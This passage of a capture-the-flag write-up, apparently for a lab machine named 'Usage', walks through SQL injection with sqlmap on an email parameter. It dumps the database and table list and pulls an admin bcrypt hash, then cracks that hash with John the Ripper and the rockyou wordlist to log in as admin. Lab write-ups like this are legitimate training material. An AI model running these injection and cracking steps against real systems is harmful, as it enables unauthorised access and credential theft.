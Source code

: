 ```
_token=2MSXK7VFyFajXsVOdTFVHRMcjxDh91Yno2S7aPaT&email=test%40test.com
```
I wrote this into `help`file. Which i will be using in `sqlmap`.
`sqlmap`code looks like this:
```
sqlmap -r help -p email --level 5 --risk 3 --threads 10 --dbs --batch --random-agent
```
***
`-p`stands for parameter and in that site parameter is email.
***
After `1 hour and 9 minutes`of boredom you will get this `databases`:
```
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```
All the information you will need is in the `usage_blog`database. Then use this code:
```
sqlmap -r help -p email --level 5 --risk 3 --threads 10 -D usage_blog --tables --batch --random-agent
```
This will show the tables inside this database:
```
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```
You will need to look inside `admin_users`table where password and the username is located:
![](/assets/images/Screenshot from 2024-07-31 21-46-04.png)
User ---> `admin`
Password ---> ` $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 `
Store this into `hashes.txt`and use our beloved `john the ripper`on this.
```
$ john -w=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)
1g 0:00:00:06 DONE (2024-07-31 18:57) 0.1470g/s 243.5p/s 243.5c/s 243.5C/s alexis1..gymnastics
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Decoded password is : `whatever1`.
Then login in as admin on this link: `admin.usage.htb`.